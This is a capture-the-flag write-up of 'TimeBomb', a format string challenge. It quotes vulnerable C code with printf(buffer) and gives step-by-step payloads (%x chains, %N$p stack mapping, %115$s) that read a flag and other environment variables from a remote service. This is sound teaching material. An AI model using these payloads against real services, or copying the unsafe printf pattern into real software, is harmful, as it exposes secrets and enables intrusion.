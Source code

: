 # TimeBomb (850 Points)

## Challenge Screenshots

![Challenge Description](./TimeBomb_850pts.jpg)

## Challenge Overview
TimeBomb was a binary exploitation challenge featuring a C program with a classic format string vulnerability. The challenge was accessible via `nc timebomb-dc33.hexnova.quest 9999` and required exploiting the vulnerability to extract a flag stored as an environment variable.

## Solution Steps

### Initial Analysis
We started by examining the vulnerable C code, which contained a critical format string bug in the `vuln()` function:

```c
void vuln() {
    char buffer[512];
    fgets(buffer, sizeof(buffer), stdin);
    printf(buffer);  // FORMAT STRING VULNERABILITY!
    exit(0);
}
```

The `printf(buffer)` call directly prints user input without a format specifier, creating a textbook format string vulnerability.

### Vulnerability Confirmation
Our first step was confirming the format string bug with a simple payload:
```
%x.%x.%x.%x.%x.%x.%x.%x
```

This revealed stack contents in hexadecimal format, confirming the vulnerability was exploitable and showing us the stack layout.

### Finding Input Position
To locate our input on the stack, we used:
```
AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
```

We found our input (AAAA = 0x41414141) at stack position 6, which meant we could use `%6$n` for arbitrary writes if needed.

### Stack Reconnaissance 
We systematically mapped the stack using payloads like:
- `%40$p.%41$p...%50$p` 
- `%85$p.%90$p...%120$p`

This revealed promising high memory addresses around positions 105-120 that could point to environment variables.

### Environment Variable Extraction
The key insight was that the flag was stored as an environment variable, not requiring code execution. We used direct parameter access to read strings from specific stack positions:

- `%105$s` → `AWS_EXECUTION_ENV=AWS_ECS_FARGATE`
- `%110$s` → `LAMBDA_URL=https://yavdhl4qozqpiugwirgyfhj4hm0hpykh.lambda-url.us-west-1.on.aws/`
- `%115$s` → `FLAG=FLAG-{Reverse7heBombt0trigg3rflagc4fb5}` ✅

### Flag Recovery
The successful payload `%115$s` revealed the complete flag:
```
FLAG-{Reverse7heBombt0trigg3rflagc4fb5}
```

## Key Techniques
- Format string vulnerability exploitation
- Stack layout analysis and reconnaissance  
- Direct parameter access using `%N$s` syntax
- Environment variable extraction from memory
- Binary exploitation without code execution

## Tools Used
- `nc` for network connection
- Format string payloads for memory reading
- Systematic stack position enumeration
- Manual exploitation techniques

## Lessons Learned
This challenge demonstrated several important concepts:
- Format string vulnerabilities remain dangerous and common
- Environment variables are stored at predictable stack locations
- Sometimes information disclosure is sufficient without achieving code execution
- Systematic approach to stack reconnaissance is crucial for exploitation
- The `%N$s` syntax provides powerful direct memory access capabilities

The solution highlighted how format string bugs can be leveraged for information disclosure, showing that not all binary exploitation requires achieving code execution - sometimes reading sensitive data from memory is the intended path.
